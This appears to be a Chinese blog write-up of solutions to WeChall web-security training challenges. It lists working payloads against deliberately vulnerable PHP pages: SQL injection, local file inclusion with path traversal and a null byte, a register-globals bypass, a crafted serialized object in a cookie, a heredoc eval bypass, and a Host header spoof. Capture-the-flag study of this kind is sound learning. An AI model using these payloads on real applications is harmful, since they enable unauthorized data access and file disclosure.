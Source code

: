 title: WeChall Writeup
date: 2015-08-07 17:01:53
tags: web
---
> 年轻人，要多撸题，多看书，少打游戏，少打炮..

<!--more-->

## 0x00 No Escape

看源码, 是sql注入.
payload: `index.php?vote_for=bill`=111%23`

## 0x01 Training: PHP LFI

看源码, 文件包含漏洞.
payload: `index.php?file=../../solution.php%00`

## 0x02 PHP 0817

这个比较傻..不多说.
payload: `index.php?which=solution`

##0x03 Training: Register Globals

全局变量的问题,,上次看到过,,不过现在的php已经没这漏洞了...(PHP还是那么老版本的活该..)
payload: `globals.php?login[]=admin`

## 0x04 Are you serial

这个有点屌...放代码吧..
```php
<?php
function my_autoloader($classname)
{
        require_once './'.str_replace('.', '', $classname).'.php';
}
function cece($name){
	echo $name;
}
spl_autoload_register('cece');
 #spl_autoload_register('my_autoloader');
$user = unserialize('O:7:"phpinfo":0:{}');
```
这题的重点就在于 `spl_autoload_register` 这个函数. 
解序列化后的如果有类, 而且当前程序中未定义该类, 则会自动把该类的名称传值到 (`sql_autoload_register(xxx)`) xxx函数中.
这题只要能运行 `SERIAL_Solution.php` 这个文件就算成功

所以最后的payload是改cookie, 
`serial_user` 的值为 `O:15:"SERIAL_Solution":0:{}`

## 0x05 PHP 0819

第一次知道php还有这鬼东西....heredoc

```php
echo <<<suibian
正文
正文
suibian;
// 格式应该是 <<<+任意字符x+换行+字符串+换行+任意字符x+;
```

这题的目的 `eval("\$spaceone='1337';");`
但是引号都被过滤了...所以就可以用上面的那个代替引号...这里由于`eval`的原因, 结尾还要再来一个换行
payload: `index.php?eval=<<<r%0a1337%0ar;%0a`

## 0x06 HOST me 

这题一看就知道是去改host, 不过比较坑....改成 `host:localhost` 后会报错...纠结了好久..
网上查了以下才知道...需要....
payload:
```
 //只把要修改的行列出来
 GET http://www.wechall.net/challenge/space/host_me/index.php HTTP/1.1
 Host: localhost
```

## 0x07 PHP 0815

这题有点屌...这题的大概意思是它给你的代码存在sqli, 然后让你给出修补的方案, 要给出最短, 还不会影响原程序的方案...
表示并不会, 只看出了应该是修改 `in_array` 这里..
到网上搜索后才知道, 需要把 `$show` 转换为int 型, 有 `int()` 和 `intval()` 然而答案要最短, 
最短的黑魔法.... --> `$show - 0`
提交 `in_array($show-0, $whitelist)` 竟然不对...坑爹的...最后提交 `-0` 过了..

最后, 我在想,, 这脚本有sqli? 怎么日? ....然后试了一下...果然有...
```php
 #code.php?show=1%20union%20select%201%23
 Query: SELECT 1 FROM `table` WHERE `id`=1 union select 1#
 SHOWING NUMBER 1 union select 1#
```

<!--## 0x08 Stop us-->

